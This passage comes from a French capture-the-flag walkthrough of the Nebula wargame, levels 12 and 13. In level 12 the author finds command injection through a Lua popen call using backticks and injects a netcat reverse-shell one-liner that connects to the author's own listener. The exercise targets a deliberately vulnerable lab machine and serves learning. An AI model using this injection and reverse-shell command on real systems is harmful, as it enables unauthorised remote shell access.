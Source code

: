Je ne suis pas familier avec Lua mais cet appel à `popen` me laisse penser qu'il y a une injection de commande possible.

J'ai tenté quelques injections classiques :

```shellsession
level12@nebula:/home/flag12$ nc 127.0.0.1 50001 -v
Connection to 127.0.0.1 50001 port [tcp/*] succeeded!
Password: id
Better luck next time
level12@nebula:/home/flag12$ nc 127.0.0.1 50001 -v
Connection to 127.0.0.1 50001 port [tcp/*] succeeded!
Password: sleep 10
Better luck next time
level12@nebula:/home/flag12$ nc 127.0.0.1 50001 -v
Connection to 127.0.0.1 50001 port [tcp/*] succeeded!
Password: ;sleep 10;
Better luck next time
level12@nebula:/home/flag12$ nc 127.0.0.1 50001 -v
Connection to 127.0.0.1 50001 port [tcp/*] succeeded!
Password: `sleep 10`
Better luck next time
```

Sur cette dernière j'obtiens une temporisation, l'injection a bien eu lieu. J'injecte la commande `nc.traditional -e /bin/bash 192.168.56.1 4444` et j'obtiens mon reverse shell :

```shellsession
$ ncat -l -p 4444 -v
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 192.168.56.97.
Ncat: Connection from 192.168.56.97:51397.
id
uid=987(flag12) gid=987(flag12) groups=987(flag12)
getflag
You have successfully executed getflag on a target account
```

## Level 13

Un `strings` sur le binaire nous laisse supposer qu'l fait des calculs sur la chaine bizarre avant de l'afficher si effectivement `getuid` retourne ce qu'il attend.

```shellsession
level13@nebula:~$ strings ../flag13/flag13 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
exit
puts
__stack_chk_fail
printf
getuid
__libc_start_main
GLIBC_2.4
GLIBC_2.0
PTRhp
UWVS
[^_]
Security failure detected. UID %d started us, we expect %d
The system administrators will be notified of this violation
8mjomjh8wml;bwnh8jwbbnnwi;>;88?o;9ob
your token is %s
;*2$"(
```